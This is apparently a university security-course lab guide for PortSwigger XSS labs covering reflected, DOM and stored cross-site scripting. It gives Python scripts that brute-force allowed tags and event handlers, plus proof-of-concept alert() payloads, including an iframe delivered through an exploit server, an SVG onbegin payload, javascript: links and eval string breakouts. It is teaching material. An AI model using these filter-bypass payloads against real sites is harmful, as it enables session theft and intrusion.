Cross-site scripting or XSS is a web security vulnerability that allows an attacker to inject Javascript in content that is then executed by the client browser. These labs demonstrate a variety of ways for performing the attack as well as ways for exploiting the vulnerability to obtain unauthorized access.
html-context-nothing-encoded
This lab contains the canonical reflected XSS attack. Within the search function of the website, the search term provided by the client is reflected back directly into the HTML context of the results page. The goal of the lab is to bounce an alert() call off of the vulnerable website to trick a client into running the alert() function. One can solve this level by bouncing an arbitrary script off of the site by searching for it. When the search term is returned in the results, the script is executed directly. A Python snippet for doing so is shown below.
s = requests.Session()
search_url = f'https://{site}/?search=<script>alert(1)</script>'
resp = s.get(search_url)As we will see in subsequent levels, in order to weaponize the vulnerability, the adversary would send the link to a victim for the victim to click on.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
html-context-with-most-tags-and-attributes-blocked
Performing input validation on the search terms being processed can be one step for preventing this attack. Many web-application firewalls (WAFs) will, in fact, filter out common XSS payloads, ensuring they never reach the backend server that might have this vulnerability. In this level, the <script> tag is disallowed along with other attributes that are often included in XSS payloads. To begin with, attempt the previous level's solution and examine the response code and the result. If the response code is not 200 (e.g. OK), the script prints out the error message returned.
search_term = '''<script>alert(1)</script>'''
search_url = f'https://{site}/?search={search_term}'
resp = s.get(search_url)
if resp.status_code == 200:
print(f'Success: {search_url} gives {resp.status_code}')
else:
print(f'Error: {search_url} gives {resp.status_code}: {resp.text}')While it appears that we can not inject the <script> tag, Javascript code can be invoked as event attributes in other tags. For this particular level, the <body> tag is allowed. Test that this is the case by filling out your Odin ID for <FMI> in the search term of the snippet below and re-running the script with the new search:
odin_id = '<FMI>'
search_term = f'''<body>{odin_id}</body>'''
search_url = f'https://{site}/?search={search_term}'We'll now test which <body> attributes might be allowed through the filter via brute-force. Within HTML, there are dozens of them (window, keyboard, mouse, drag, clipboard, media). For this level, a window event is allowed through. The Python snippet below contains a subset of the window events that can be specified. The script will attempt to use each attribute to cause the victim to execute alert(document.cookie) when the window event occurs. Run the snippet to determine all of the attributes that are allowed through.
attributes = ['onload','onunload','onerror','onmessage','onpagehide','onpageshow','onresize','onstorage']
for attribute in attributes:
search_term = f'''<body {attribute}=alert(document.cookie)></body>'''
search_url = f'https://{site}/?search={search_term}'
resp = s.get(search_url)
if resp.status_code == 200:
print(f'Success: {search_term} gives code {resp.status_code}')
else:
print(f'Error: {search_term} gives response: {resp.text}')- List which window event attributes are allowed for your lab notebook
Running the snippet shows that the resizing window event attribute is allowed. Visit the web site and run a search that reflects the <body> tag containing the resizing attribute. When the result page is returned, resize the browser window to generate the pop-up as shown below.

- Include a screenshot of the pop-up
Exploit server
For this level, an exploit server is given to us at the top of the web site that we can use to compromise the victim. The server allows us to place arbitrary HTML content at https://{exploit_site}/exploit that the simulated victim will blindly access when we deliver it to them. From the top of the page on the level site, click on "Go to exploit server" to access the server. On the exploit server, we have the ability to store the body of an HTML file to whatever path we choose on it (defaulted to /exploit), to preview what it looks like, to deliver the exploit to the victim, and to view the exploit server's log file.
Inspect page to see that the interactions with the exploit server are implemented via a single HTML form. A snippet of the form is shown below that enumerates the actions that can be performed with it
<form id=feedbackForm action="/" method="POST">
...
<label>HTTPS</label>
<input type="checkbox" name="urlIsHttps" checked />
<label>File:</label>
<input type="text" name="responseFile" value="/exploit" />
<label>Head:</label>
<textarea name="responseHead"></textarea>
<label>Body:</label>
<textarea name="responseBody"></textarea>
<button name="formAction" value="STORE" type="submit">Store</button>
<button name="formAction" value="VIEW_EXPLOIT" type="submit">View exploit</button>
<button name="formAction" value="DELIVER_TO_VICTIM" type="submit">Deliver exploit to victim</button>
<button name="formAction" value="ACCESS_LOG" type="submit">Access log</button>
</form>As the form shows, for this level, one can store an exploit shown specified in the responseBody textarea, view the exploit as the victim would, deliver the exploit to the victim to click on, and view the access logs for the exploit server. The actions are specified by the associated formAction values STORE, VIEW_EXPLIOT, DELIVER_TO_VICTIM, and ACCESS_LOG.
Programmatic interaction with exploit server
The script below programmatically retrieves the exploit server's URL and creates a POST request to it that uses the formAction of STORE to store some innocuous HTML into the /exploit route. Run the script to store the exploit on the exploit server.
site_url = f'https://{site}/'
resp = s.get(site_url)
soup = BeautifulSoup(resp.text,'html.parser')
exploit_url = soup.find('a', {'id':'exploit-link'}).get('href')
exploit_html = f'''<h1>Hello {odin_id}</h1>'''
formData = {
'urlIsHttps': 'on',
'responseFile': '/exploit',
'responseHead': 'HTTP/1.1 200 OK\nContent-Type: text/html; charset=utf-8',
'responseBody': exploit_html,
'formAction': 'STORE'
}
resp = s.post(exploit_url, data=formData)Visit the exploit server and click on "View exploit" to show that it has been stored properly as shown below:

Then, click on "Access log" to show that the POST from your Python program has been recorded, along with the IP address of the machine you're using. This IP address will help you differentiate between accesses from the victim and your own.

- Take a screenshot of the above log entry and include it in your lab notebook.
Develop and deliver exploit
We will now use this vulnerability and the victim's request to the exploit server to complete the level. The strategy for the exploit is to upload content to /exploit that implements an iframe whose source is the URL for the reflected search term that pops up the document.cookie in an alert box. Doing so, solves the level. Begin by changing the script for uploading the exploit payload to the code below.
search_term = '''<body onresize=alert(document.cookie)></body>'''
exploit_html = f'''<iframe src="https://{site}/?search={search_term}" onload=this.style.width='100px'></iframe>'''As the code shows, we deliver an iframe whose src points to the reflected search term which performs the alert(document.cookie). We then trick the victim's browser into automatically triggering a window resizing event by setting the window's width to 100 pixels. Store the exploit and then go back to the exploit server and "View exploit" to show that it has been stored properly and generates the pop-up.

After clearing the pop-up, you can view the page source of the /exploit page to see its content.

You can also view the frame source of the iframe itself to see that it contains the results of the search that contains the reflected content.

We can now complete the level by delivering it to the victim. The prior form submissions only STORE the exploit. We can simply change the formAction to DELIVER_TO_VICTIM and the victim will then automatically access the exploit to test for a successful exploit.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
some-svg-markup-allowed
This level contains the same vulnerability in that the search term is reflected back into the HTML context of the results page. However, unlike before, the <script> tag is filtered out. Begin by attempting a search using the <script> tag as a search term.
tag = 'script'
search_url = f'https://{site}/?search=<{tag}>'
resp = s.get(search_url)
print(f'Status code is {resp.status_code} with response text {resp.text}')- Show the HTTP status code and response text obtained
As shown before, XSS can be triggered via event attributes to HTML tags that include Javascript code. While the site filters out <script>, there are a lot of other HTML tags one could use. We can perform a brute-force attack across all of the valid HTML tags in order to see what the site does not filter. Visit Portswigger's XSS cheat sheet to copy the set of HTML tags. Then, create a list in Python called tags that includes them and adapt the Python script below to list which tags are not being filtered.
tags = ['a2', 'abbr', 'acronym', <FMI>]
for tag in tags:
search_url = f'https://{site}/?search=<{tag}>'
resp = s.get(search_url)
# Your code to check response- Show the list of tags that are not filtered
Two of the tags that have not been filtered are the <svg> and <animatetransform>tags. Unfortunately, these tags can specify Javascript in event handlers that can allow arbitrary code to be executed. The site filters event attributes as well. Using the <animatetransform> tag, run another script to determine which event handlers in the XSS cheat sheet are allowed.
events = ['onactivate', 'onafterprint', 'onafterscriptexecute', <FMI>]
for event in events:
search_url = f'https://{site}/?search=<animatetransform {event}>'
resp = s.get(search_url)
# Your code to check response- Show the list of events that are not filtered
Then, use the following search to solve the level:
search_term = '''<svg><animatetransform onbegin=alert(1)>'''- Take a screenshot showing completion of the level that includes the level URL and your OdinId
Note that if the level does not solve after you trigger the alert, you may need to wait until it resets and send the payload to a fresh level.
attribute-angle-brackets-html-encoded
Prior levels have had the search term containing the cross-site scripting attack reflected back into the HTML context of the returning page. Vulnerable applications can reflect the search term in other contexts on the returning page, however. In this level, the search term is reflected back in two places. To prevent the reflected content from running in the HTML context, HTML-encoding has been applied to the tag characters (e.g. < and >) in order to keep them from being interpreted as HTML when reflected. Encoding must be done in every context the term is reflected back into, however.
Begin by visiting the page and entering a tag consisting of your OdinId as the search term (e.g. <wuchang>).

View the source of the result page to see the search term appear into two contexts.
- Show the part of the source demonstrating that the content has been HTML-encoded in the HTML context
- Show the part of the source demonstrating that the reflected content also appears within an HTML tag's context
The page implements a pre-filled form. Within the search's <input> tag context, the original search term has been pre-filled using the tag's value attribute. The Python snippet below performs the same request and prints out the <input> tag. Fill it in with your Odin ID and run the script to regenerate the result.
odin_id = '<FMI>'
search_term = odin_id
search_url = f'https://{site}/?search={search_term}'
resp = s.get(search_url)
for line in resp.text.split('\n'):
if 'input' in line:
print(line)While we have protected against injection in the HTML context with HTML-encoding, we must also protect against the reflection attacks within the <input> tag's context. Much like SQL-injection attacks that break strings with quotes, the value attribute that the search term is reflected into may also be vulnerable to injection. The field is delineated with double-quotes. By injecting a pair of double quotes, we may be able to inject rogue attributes into the tag. Using the script above, perform the search below:
search_term = f'''{odin_id}" foo="bar'''- Take a screenshot of the output for your lab notebook
The first double-quote terminates the value field, making the pre-filled field show just your odin_id. Doing so also places the rest of the search_term within the <input> tag's context, causing foo="bar" to be treated as another attribute within the <input> tag. Finish the level by running a search in which foo is replaced with onmouseover and bar is replaced with alert(1).
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
javascript-string-single-quote-backslash-escaped
There are several different contexts on the search results page that the reflected content can appear in. A typical strategy is to probe a site with a unique string and examine where the string appears. Begin this level by repeating the search consisting of a tag containing your OdinId (e.g. <wuchang>). View the source of the resulting page.
- Within the source, show the two contexts that the search term appears in.
The search term is properly HTML-encoded in the HTML context, preventing the injection of the tag. However, the tag appears unencoded within the Javascript code that implements a tracker image on the page. Inspect the page and locate the tracker image.
- Open the tracker image in a new tab and show its URL that contains the search term
When parsed by the browser, the lack of encoding within the Javascript code is problematic. What might happen if one injected a </script> instead? Would this terminate the script's execution?
- Perform the search for <
/script> and explain why the string below the search form appears and where it came from
Then, inspect the page in Developer Tools and find the tracking image. Open it in a new tab.
- Show its URL and explain why it no longer contains the search term
Solve the level by terminating the Javascript that implements the tracker image and then injecting another <script> tag that performs an alert.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
javascript-string-angle-brackets-html-encoded
Begin by searching the site using the solution to the prior level. View the source of the resulting page.
- Take a screenshot of the search term as it is reflected back in the Javascript code. What has been done to the search term as it appears in the Javascript code?
While the page may be preventing the insertion of HTML tag characters, the page may still be vulnerable to other injection attacks. In the Javascript code, examine the string variable that holds the reflected search term. Much like SQL injection attacks attempt to escape out of the query string via the injection of the single-quote or double-quote, we can attempt to escape out of the Javascript string by injecting its delimiter (in this case, ')
Bring up Developer Tools and click on the Javascript console. Then, perform a search using the string delimiter character.
- Show the error that is returned and the line number it occurs on.
Click on the line number to view the error. The broken assignment has three quotes followed by a semi-colon, indicating that the delimiter used as a search string has broken the syntax of the Javascript statement. To be included safely in Javascript, the application must backslash escape the delimiter if used in the search term (e.g. \' ).
Because the web application does not perform the escape, we can inject arbitrary Javascript into the tracking script on the results page. Consider the Javascript code that is returned on the results page when the search term is foo, as highlighted in red below.
Repeat the search above with Developer Tools running and use the string '; // hello. View the source line above as well as the <img> tag that the script writes to the page. Answer the following questions for your lab notebook:
- Why does the search term not appear in the <
img> tag? - What does // do in the Javascript code?
If we search for foo'; searchTerms = 'bar, the Javascript code then becomes:

As the code shows, the search term terminates the string and statement with foo'; , then performs a reassignment of the searchTerms variable to 'bar', employing the original statement's '; to end the second assignment. This will result in the tracker image using 'bar'. Perform the above search, then inspect the results page in Developer Tools to find the tracker image.

- Take a screenshot of its URL demonstrating successful injection of the second Javascript assignment.
With the injection happening directly into Javascript, add an alert(1) to your injection to trigger a pop-up on the client when reflected back and solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
In this level, the single-quote is properly escaped when included into the Javascript code for the tracker image. Bring up Developer Tools and perform the search using a single-quote again. Unlike the prior level, the single-quote does not break syntax as a result of the character being escaped with a backslash as shown below.

The <img> tag then appropriately includes the single-quote as the search term.

Repeat the search using the backslash character followed by the single-quote. Go to the console of Developer Tools and find the error.
- Explain why this error has happened and what needs to be done to fix it
Solve the level using the injection from the previous level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped
Template literals or template strings in Javascript are similar to f-strings in Python in that they allow one to create strings with language expressions included in-line via the syntax ${expression}. Consider the following code in which the email template literal includes a placeholder expression consisting of the variable name.
var name = "wuchang";
var email = `${name}@pdx.edu`After assignment, email evaluates to wuchang@pdx.edu.
Begin by visiting the site and searching for your OdinId in the blog. Inspect the blog-header section of the results page and view the HTML element containing your OdinId. Then, find the Javascript code that the client executes to generate the text for this element.
- Show this line of Javascript
The Javascript code references a string that is produced using a template literal.
- Show the line that defines the template literal.
The use of a template literal in this case is unnecessary and unfortunate. Since the adversary controls the search term that is used in this template literal, unless properly filtered, there is an opportunity for them to inject an arbitrary expression into this literal via insertion of a placeholder that is then evaluated as Javascript code. Repeat the search using the string cs${490+5}. View the HTML element and template literal in Developer Tools
- Explain the results
By not sanitizing the input used for the template literal, the adversary is able to execute Javascript code. Solve the level using the template literal to execute an alert().
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
document-write-sink
When client-side Javascript is used to generate DOM elements, it must be careful not to use any untrusted input without proper sanitization. Begin by visiting the site and searching for your OdinId. View the raw page source to examine the Javascript code that, when executed, writes a tracker img into the page that includes the search term. The code does so by parsing the URL to find the value of the search parameter. We can see the <img> tag that is written to the page after the page is rendered by the browser. To see it, go back to the search results page and bring up the DOM inspector in Developer Tools to view its elements. Expand out the sections to find Javascript code that writes the tag and the <img> tag it has written into the DOM.
Within the <img> tag, examine the delimiter used to denote the URI. As in prior injection levels, we must ensure that a search term that includes this delimiter doesn't break syntax. Prepend this string delimiter to your OdinId and repeat the search.
- Take a screenshot of the <
img> tag in Developer Tools and show that its syntax has been broken.
Since we can now break into the <img> tag, solve the level by breaking its syntax and using an event attribute to trigger an alert().
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
document-write-sink-inside-select-element
Begin by visiting the site and viewing the product with productId=1.
https://{site}/product?productId=1At the bottom of the page, a stock check form is implemented allowing one to select a store from a dropdown menu to query the product's availability at that store.

View the source of the page and examine the Javascript code used to implement the form. To populate its DOM, the client executes the code to generate the select element with the various option elements to choose from. Examine the script and answer the following questions for your lab notebook:
- How does the
storevariable get set? Can one always assume that it is one of the values in thestoreslist? - What is the purpose of the first
ifstatement? What is the purpose of the secondifstatement?
View the page in Developer Tools, expand out the form, and see the dropdown menu that the execution of the script generates.
The site does not properly protect against adversarial input when implementing the store selection functionality. Use your OdinId as the store identifier in the URL below and access the product page again.
https://{site}/product?productId=1&storeId=<FMI>Examine the dropdown menu.
- Take a screenshot showing that you have successfully injected a bogus store that is not one of the initial ones in the
storeslist.
Go back to the Javascript code and examine the document.write() that produces the <option> tags. Because we control the value of the variable being used in producing this string, we may be able to break its syntax or inject our own HTML tags into the page. Leverage this to invoke an alert() as in prior levels.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
innerhtml-sink
This level is similar to the prior ones. Javascript code is used to change the content of HTML elements (innerHTML) of the searchMessage span after the DOM has been created.

As before, the content is obtained via the search parameter in the URL. Because the adversary controls this, malicious content can be injected. Because the HTML is changed via innerHTML assignment, script elements within are not executed. Thus, a search for "<script>alert(1)</script>" will not execute an alert(). The browser must still perform a rendering operation for embedded HTML tags, though. As a result, we can instead use event attributes in other HTML elements to perform the alert().
The payload "<img src=1 onerror=alert(1)>" is an example of such a payload. The src attribute points to a bogus URI. When the browser attempts to access it, an error is thrown. By specifying the onerror handler to be alert(1), we can immediately pop-up an alert when searching for the payload. Use this to solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
jquery-href-attribute-sink
Anytime that Javascript running on a page takes in untrusted input and places it in the DOM, a cross-site scripting vulnerability can occur. In this case, the untrusted input is directly included into an <a> tag, allowing the adversary to invoke arbitrary Javascript when a link on the page is clicked.
Begin by visiting the page and finding the link to "Submit feedback". Copy the URL and paste it to view the URL parameter it includes. Click on the link to visit the page to submit feedback. View the original page source before it has been rendered. A <script> tag is used to include jQuery, a commonly used Javascript library. It also includes a blank link with an id of "backLink".

It then includes the following jQuery expression that takes the value specified in the returnPath URL parameter and updates the a tag's href attribute to create a link for it.
<script>
$(function() {
$('#backLink').attr("href",
(new URLSearchParams(window.location.search)).get('returnPath'));
});
</script>Edit the URL in the browser and enter in your OdinId for returnPath. Reload the page and click on the generated backLink.

Given what has happened, we can then specify a Javascript call as the returnPath parameter and have it be injected into the backLink, causing it to be executed when clicked. Finish the level, by encoding a Javascript call that performs the alert() of the document's cookie when clicked.
javascript:alert(document.cookie)- Take a screenshot showing completion of the level that includes the level URL and your OdinId
dom-xss-reflected
Initial request
The Javascript Object Notation (JSON) is intended to be a data-only format that should never be evaluated as code. Any Javascript code that uses eval() on a JSON object can potentially create a remote-code execution (RCE) vulnerability. Begin by visiting the site and bringing up the Developer Tools console and select the "Network" tab.

Copy the title of the first blog post and submit a search for it. To implement the search functionality, the page downloads the Javascript file /resources/js/searchResults.js. It then sends an XMLHTTPRequest (XHR) request, also known as an AJAX request, to the backend server to perform the search, getting a JSON object in response. Find the XHR request, click on it, and view the JSON object in the response.
- Show a screenshot of the URI path of the XHR request
- Show a screenshot of the JSON response that echoes the search term
Then, click on the "Sources" tab and navigate to searchResults.js. The file defines a search() function that takes a URI path (seen in your prior screenshot) and uses it to submit the XHR HTTP request (also seen in the screenshot). The server returns its response in JSON as is typically done for many web APIs via this.responseText. It performs the request and uses the response to generate the searchResultsObj object. Unfortunately for the client, the script does so by using the eval() function, before passing the object to displaySearchResults() which renders the DOM elements to the user.
- Take a screenshot of the vulnerable line of code
Break syntax
The JSON response echoes the search term back to the client as part of its response. If we can somehow break syntax and inject Javascript code, the client's use of eval() will allow us to then execute that code. Examine the format of the search term within JSON and the characters used to delimit it. Attempt to break syntax by performing a search using the delimiter.
- What has been done to the delimiter to prevent syntax from being broken?
We must make sure any escape character that is used is also escaped out if sent by a user. Repeat the search by sending in an escape character followed by the delimiter.
- Take a screenshot of the error that has been produced in the console. Examine the JSON response to verify that you have broken syntax.
Solve the level
Going back to the Javascript, the code will eventually eval() a statement with the format below (with XXX denoting our term that breaks syntax.
var searchResultsObj = {"searchTerm":"XXX","results":[]}We can then break syntax using the technique above and immediately close out the JSON using }; and then call alert(). To ensure the rest of the JSON response is not executed (e.g. ","results":[]} ), we can then finish by injecting the Javascript comment characters // .
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
html-context-nothing-encoded
Another way to perform a cross-site scripting attack is by leveraging web sites that allow user content to be stored without proper sanitization. This lab contains the canonical stored XSS attack that does so. Within the comments section of the website, one can upload a comment that contains Javascript code. If not properly sanitized, this code will then be executed by any visitor to the site that subsequently accesses the comment. The Python snippet below submits a comment onto the vulnerable site. Fill it in with your name and e-mail address, then run the script and ensure you are able to use it to post a comment on the post with postId=1.
blog_post_url = f'https://{site}/post?postId=1'
resp = s.get(blog_post_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
comment_url = f'https://{site}/post/comment'
comment_string = '''Hello world!'''
comment_data = {
'csrf' : csrf,
'postId' : '1',
'comment' : comment_string,
'name' : '<FMI>',
'email' : '<FMI>',
'website': 'https://pdx.edu'
}
resp = s.post(comment_url, data=comment_data)
resp = s.get(blog_post_url)
print(resp.text)As with the search term in the previous level, the comment_string can contain Javascript code. When stored, any subsequent user will execute the code. Re-run the Python script and post a comment containing Javascript that creates a pop-up window that emits the session cookie:
<script>alert(document.cookie)</script>- Take a screenshot showing completion of the level that includes the level URL and your OdinId
href-attribute-double-quotes-html-encoded
In this lab, when posting a comment, an author is able to provide a URL that is then placed as a link on the site. It is important that this URL be properly encoded to avoid a cross-site-scripting attack. Unfortunately, this level has a vulnerability in that it hasn't encoded all of the necessary characters to avoid the attack. Navigate the site to find the blog post with postId=1. Using the Python script previously given, repeat the posting of a message that contains https://pdx.edu as the website attribute for the author in the form submission. Then, scroll down and locate the post that has been submitted and inspect its author link in Developer Tools.
As the <a> tag shows, a link with an id of author has been created that points to https://pdx.edu. Examine the string delimiters used to denote the URL in the link. If the author_url contains a double-quote, we must make sure our web application encodes it in order to prevent an adversary from escaping out of the URL and into the context of the <a> tag.
Perform the post again, but attempt to break out into the <a> tag via the use of double-quotes. Fill in the Python snippet below with your OdinId and perform the post.
'website': '''https://pdx.edu" OdinId="<FMI>'''
Reload the blog post and hover over the link. See that the double-quote used has been encoded and that rather than breaking syntax, the OdinId is part of the website link. Inspect the <a> tag in Developer Tools.

- Take a screenshot showing that the author's website link has been protected with appropriate encoding and that the URL contains the OdinId string.
Another way to have the alert() pop up without breaking syntax in the href attribute is to simply invoke Javascript directly in the link. Set the website attribute to javascript:alert(1) to invoke the pop-up when clicked.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped
Browser rendering of HTML-encoded content
This level requires some knowledge of how the browser renders content. HTML employs characters such as <, >, ", and ' to denote tags and delimit their attributes. If an HTML page wishes to use those characters in its content, it must HTML-encode them as <, >, ", and ' respectively to prevent them from being interpreted as HTML code. A browser will download the page source and parse the HTML tags to create the DOM (Document Object Model) for the page. In filling in the DOM content, it will then HTML-decode any HTML-encoded characters in order to display them on the page. You can see the difference by viewing the first sentence of this web page using the browser's view page source

and then viewing it via the browser's Developer Tools DOM inspector.

Python snippet for posting comments
Similar to previous levels, the Python snippet below posts a comment onto the blog post with postId=1. Because we will be posting multiple times in this lab, it has been modified to include a name and a website_link parameter. Modify the snippet with your PSU e-mail addresses and a custom comment.
def try_post(name, website_link):
blog_post_url = f'https://{site}/post?postId=1'
resp = s.get(blog_post_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
comment_url = f'https://{site}/post/comment'
comment_data = {
'csrf' : csrf,
'postId' : '1',
'comment' : '<FMI>',
'name' : name,
'email' : '<FMI>@pdx.edu',
'website': website_link
}
resp = s.post(comment_url, data=comment_data)Initial post
Begin by submitting an innocuous comment to examine the Javascript code the site implements.
try_post("innocuous","https://pdx.edu/")Inspect the comment in Developer Tools. The link appears in two contexts on the page: 1) as part of the a tag's href attribute and 2) within the single line of Javascript code that is invoked when the link is clicked as defined in the onclick event attribute. The Javascript code instantiates an object called tracker that has one function defined (track()). It then proceeds to invoke the function with the website_link (https://pdx.edu) given by the user. The goal of the level is to inject an alert using this attribute. Copy this line of code to the clipboard.
Craft an exploit
Open up a new tab in the browser and bring up the console in Developer Tools.

Paste the code you have copied directly into the console and execute it. The code should execute without errors as shown in the output below.

Within the console, we'll examine payloads that can be injected via the website_link that can break out of the Javascript string syntax to invoke an alert(). Within the console above, perform the following:
- Replace the URL with
https://pdx.edu'(e.g. the original URL with a single-quote added to break Javascript syntax). Execute the code and show a screenshot of the error that is returned.
The prior URL broke Javascript syntax, causing an error. The goal of this level is to break syntax to invoke the alert() function.
- Explain what happens when the URL is replaced with
https://pdx.edu');// - Finally, using this URL, insert an
alert(1);into it and take a screenshot of the results in the console including the pop-up
We will eventually use this payload to solve this level.
Probe the site
Our payload requires that we break syntax using a website_link that includes a single quote. Begin by attempting to do so.
try_post("single quote","https://pdx.edu/'")Bring up the blog post view its page source and its DOM in Developer Tools. In both cases, the quote has been backslash escaped appropriately, preventing our attempt to break syntax.
Now try the post using a website_link that includes a double-quote.
try_post("double quote",'https://pdx.edu/"')Bring up the blog post view its page source and its DOM in Developer Tools.
- Explain why they differ
Next, attempt to send an HTML-encoded double quote as part of the URL.
try_post("double quote HTML encoded",'https://pdx.edu/"')- Are the results the same?
The prior post shows that the HTML-encoded double-quote is allowed by the web application and sent back into both the <a> tag's href context as well as the Javascript context as data. By performing encoding, injection has been prevented. After being HTML-decoded, the double-quote can be safely included into the Javascript code as literal characters.
Break syntax
Both raw double-quotes and HTML-encoded double-quotes are safely included into the page's contexts before being used in the href containing the link and in the Javascript code for tracking. We have seen that the single quote is escaped by a backslash. What if we inject an HTML-encoded single quote (')? When included in a comment and accessed, will it be backslash-escaped in the Javascript code to prevent a string escape? Perform the following post and view the post in Developer Tools to find out.
try_post("single quote HTML encoded",'https://pdx.edu/'')Go back to the blog post and navigate to the console in Developer tools. Click on the link and view the errors in the console.
- Take a screenshot of the error message in the console. Is it similar to one that you have seen when crafting an exploit?
Solve the level
Based on the exploit created within the console previously, craft a website_link payload that will cause an alert() to be invoked when the link is clicked. Post the exploit comment:
try_post("exploit",'https://pdx.edu/<FMI>')Visit the blog post and click on the link to cause an alert() to occur which solves the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
dom-xss-stored
One of the main counter-measures for cross-site scripting is to ensure that user-controlled content, whether stored or reflected, is HTML-encoded before being rendered by the client browser. One can do this either on the backend server or on the client. Unless the encoding is done properly, however, the vulnerability can still exist. In this level, the comments for a blog post are retrieved by client-side Javascript using a REST-like API. The site includes a Javascript routine that attempts to HTML-encode the comments that are retrieved so that when they are rendered by the client browser, no cross-site scripting is possible.
Javascript preliminaries
Begin by bringing up the Developer Tools console on a new browser tab. Create an HTML tag out of your OdinId and place it in a Javascript string (e.g. "<wuchang>"). Hit return to see it echoed back.
If this string were included in a comment, the tag would be interpreted as HTML by the client browser. To prevent this, one might use the replace() call to encode the HTML tag character < as < . Using your OdinId, evaluate the following and examine the result.
"<OdinId>".replace('<','<')Since we'll want to encode both HTML tag characters to prevent syntax from breaking, we can take the results of the first replacement and go through it again to replace the > with > .
"<OdinId>".replace('<','<').replace('>','>')Using the code above, perform the replacements using the string below:
"<OdinId><img src=1 onerror=alert(1)>"- Take a screenshot of the result and explain the issue. What other built-in String method could be used instead to fix this particular issue?
Vulnerable code
